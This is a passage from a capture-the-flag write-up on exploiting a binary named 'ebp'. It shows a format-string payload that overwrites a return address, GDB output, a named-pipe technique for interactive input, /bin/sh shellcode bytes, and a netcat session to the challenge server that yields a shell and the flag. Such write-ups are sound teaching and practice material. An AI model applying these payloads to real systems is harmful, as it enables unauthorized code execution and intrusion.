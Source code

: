 ```
%041088x%12$hn
Segmentation fault (core dumped)
$ gdb -q ebp core
Program terminated with signal 11, Segmentation fault.
#0  0x0804a085 in buf ()
(gdb) x/x 0xffc93e7c
0xffc93e7c: 0x0804a080
```
We read out the value `0xffc93e98` and subtract `0x1c`. The target address should be `0xffc93e7c`. We only need to overwrite the last byte `0x7c` (= 124). We want to change the last 2 bytes of the return address to `0xa080` (= 41088). After the 4th input, we predictably get a SEGFAULT. We check with GDB and our overwrite was successful.

# Step 3: Executing the exploit

The final difficulty is that on the one hand we need interactivity (because of ASLR) and on the other hand we need to be able to send over our shellcode. We can't just use netcat and we can't know the traget address, so sending all the info at once is also not possible. The solution is using *named pipes*, which are like files you can write to that input data to any program that's reading them. They can be created with the `mkfifo` command. Normally these pipes are closed after they've been written to, but there's a trick to keep them open and write to them repeatedly. After you're done using them, execute `ps aux | grep pipe` to find and kill any processes still keeping your pipe open:
##### Terminal 1
```
$ mkfifo pipe
$ cat > pipe &
$ cat pipe | ./ebp
test1

test2

```
##### Terminal 2
```
$ echo "test1" > pipe
$ echo "test2" > pipe
```

Shellcode:
`\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

Now that everything's in order, let's get our flag:
##### Terminal 1
```
$ cat pipe | nc 52.6.64.173 4545
0000000a.00000001.f77b1000.ffd00e48.0804852c.ffd00e68.f77d4020.ffd00e94.f77b1000.00000000.00000000.ffd00e68.

0000000000000000000000000000000000000000000a

0000000a.00000001.00000000.ffd00e48.0804852c.f77b1ac0.f77d4020.ffd00e94.f77b1000.00000000.00000000.ffd00e2c.

problem

ebp
flag.txt

who_needs_stack_control_anyway?

```
##### Terminal 2
```
```